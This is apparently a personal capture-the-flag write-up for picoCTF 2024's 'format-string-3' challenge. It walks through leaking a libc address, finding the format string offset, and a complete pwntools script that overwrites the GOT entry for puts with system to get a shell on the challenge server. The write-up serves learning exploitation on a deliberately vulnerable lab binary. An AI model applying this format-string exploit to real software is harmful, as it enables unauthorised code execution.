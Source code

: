 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program ***doesn't contain a win function***. How can you win?<br>
Download the binary [here](format-string-3).<br>
Download the source [here](format-string-3.c).<br>
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2).<br>
Run the binary with these two files present in the same directory.

## Solution

When I first looked at the challenge title, I immediately thought it would be very difficult for me. Initially, I didn’t even know where to start, so I decided to look for writeups online.  

To begin, I examined the source code to identify any vulnerabilities that could be exploited. After conducting some research, I realized this challenge was more complex than the previous ones. It required leaking an address and finding the input string offset to overwrite and replace the puts function with the system function. Ultimately, the program will be ended up by executing system("/bin/sh"), which spawns a shell, and thus I can get the flag from the shell.

![image](https://github.com/user-attachments/assets/6cc812fe-ad8a-4d4d-a782-3402ec58fc9e)<br>
**The source code.*

Once I understood the concept of exploiting this challenge, I began by running the provided program to observe its execution and output. To do this, I connected to the challenge instance on the PicoCTF site by entering the command nc rhea.picoctf.net 64550 in the Kali terminal. To test upon the input and observe the output, I input a simple string as input to the program, which will be printed back to stdout(buf) function call.

![image](https://github.com/user-attachments/assets/4fe4f694-24f7-4c0d-80e0-d365cdd464e1)<br>
**The stdin and stdout function call.*

In this case, I know I can use format specifiers to read arbitrary stack values.

> [!NOTE]
> Arbitrary stack value  
> From what I understand, it seems to involve the addresses for inputs. Whenever we enter something into the program, it gets stored in the program's background process. Hence, we can simply use the format specifiers like %x (hexadecimal) or %p (pointers) to read the arbitrary values from the program.

![image](https://github.com/user-attachments/assets/487a6098-68f9-41c7-9f82-aa99b42c927d)<br>
**The output of input testing.*

From this, I tested again with the input `AAAAAAAA%2$p` to observe the output. The result displayed 8's A followed by the second argument, which should correspond to the second memory address.

![image](https://github.com/user-attachments/assets/aa5e5a23-b732-4de1-9f2c-5aaef71add85)<br>
**The testing result.*

> [!TIP]
> Ideally, the format specifier **%n$p** where n is an offset to point exactly at the start of the input string. You can do this manually (%p, %2$p, %3$p…) until %p points to the desired input string.

Now, I can determine the offset of the input string by entering 8 'A's followed by as many %p placeholders as possible. This allows me to clearly identify where the input appears in the displayed output.

![image](https://github.com/user-attachments/assets/3311c030-448c-46ee-b452-1596aa511be0)<br>
**The input is at the 38th position.*

Once I gathered all the necessary information, I prepared a script to incorporate everything needed to exploit the shell and retrieve the flag. The script used is shown below.

``` python
#!/usr/bin/env python3
from pwn import *

# Context setup
exe = "./format-string-3"
libc_path = "./libc.so.6"

context.binary = ELF(exe)
libc = ELF(libc_path)
context.terminal = ["tmux", "splitw", "-h"]

# Offset for the format string vulnerability
FMT_STR_OFFSET = 38


def leak_libc_base(io):
    """Leaks the libc base address from the provided setvbuf leak."""
    io.recvuntil(b'setvbuf in libc: ')
    setvbuf_leak = int(io.recvline().strip(), 16)
    log.info(f"Leaked setvbuf address: {hex(setvbuf_leak)}")

    libc_base = setvbuf_leak - libc.symbols["setvbuf"]
    log.info(f"Calculated libc base address: {hex(libc_base)}")

    libc.address = libc_base  # Set the base address for further calculations
    return libc_base


def create_payload():
    """Creates the format string payload to overwrite GOT entry for `puts`."""
    target_address = context.binary.got["puts"]
    system_address = libc.symbols["system"]
    log.info(f"Target address (GOT entry for puts): {hex(target_address)}")
    log.info(f"New function address (system): {hex(system_address)}")

    payload = fmtstr_payload(FMT_STR_OFFSET, {target_address: system_address})
    log.info(f"Generated payload: {payload}")
    return payload


def main():
    # Connect to the target binary (remote or local)
    io = remote("rhea.picoctf.net", 64550)

    # Attach GDB for debugging if required
    if args.GDB:
        gdb.attach(io, gdbscript="b *main+127\ncontinue")

    # Leak libc base address
    libc_base = leak_libc_base(io)

    # Create the payload to exploit the format string vulnerability
    payload = create_payload()

    # Send the payload
    io.sendline(payload)

    # Get an interactive shell
    io.interactive()


if __name__ == "__main__":
    main()
```
**This script was written with reference to [online author].(https://blog.thecyberthesis.com/blog/writeups/picoCTF/pwn/format-string-3).*
